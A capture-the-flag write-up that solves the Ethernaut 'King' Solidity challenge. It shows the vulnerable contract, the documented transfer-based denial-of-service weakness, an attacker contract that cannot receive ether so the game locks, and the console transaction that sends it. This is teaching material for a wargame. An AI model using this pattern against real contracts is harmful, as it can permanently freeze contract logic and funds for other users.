

***King***

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

Let's check out the solidity documentation and check out that transfer function to see if there may be a security consideration we need to understand.

From https://docs.soliditylang.org/en/v0.8.11/common-patterns.html :

Notice that, in this example, an attacker could trap the contract into an unusable state by causing `richest` to be the address of a contract that has a receive or fallback function which fails (e.g. by using `revert()` or by just consuming more than the 2300 gas stipend transferred to them). That way, whenever `transfer` is called to deliver funds to the “poisoned” contract, it will fail and thus also `becomeRichest` will fail, with the contract being stuck forever.

Let's try doing that... Below is a contract I wrote to send some ETH to the target contract.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'target.sol';

contract Hack {
  address payable public target = payable(0xFEa7497fE7DfED92cAeEc12e9bB59A7bc79d5BeB);

  function getSome() public payable {
        (bool s, ) = address(target).call{value: msg.value}("");
        require(s);
  }
}
```

Notice that without a recieve or fallback function to accept ETH, the King contract simply can't usurp us. This should achieve our goal of preventing the contract from designating a new king, but how can we send some ETH to it? We need to send at least 1000000000000000 wei, or 0.001 ETH.

One method is a self-destruct from another contract, as we examined in the Force challenge.

Another is to send some ETH to the function designated `getSome()`, but this may be more challenging than it seems. With Metamask, we run into an issue with the default `msg.value` being set to 0, and not configurable:


Another approach we can take is to manually call the function with the Ethernaut web3 console in the format `await sendTransaction({from:"", to:"", data:""})`.

Remember that we can find the function identifier `data` value is = `(bytes4(sha3("<functionName>()"))`

In this case, the function name of getSome() converted to sha3 is `0x7da2e9b9b14f0ca49d600cb34f9f47fdb7d5fbcaeb506480210b72b1ce196ea0`.



To get the bytes4, we can take the first 8 characters after the 0x: `0x7da2e9b9` then fill in the rest with 0's:

```
await sendTransaction({
  from: "0x789bC753b5405463194Ef1FE607Fbf15328A58bd",
  to: "0x3EEBb225258C6BB362fd31217Ab8A6528d346462",
  data: "0x7da2e9b90000000000000000000000000000000000000000000000000000000000000000",
  value:"1000000000000000"
});
```


Submit the instance to win!

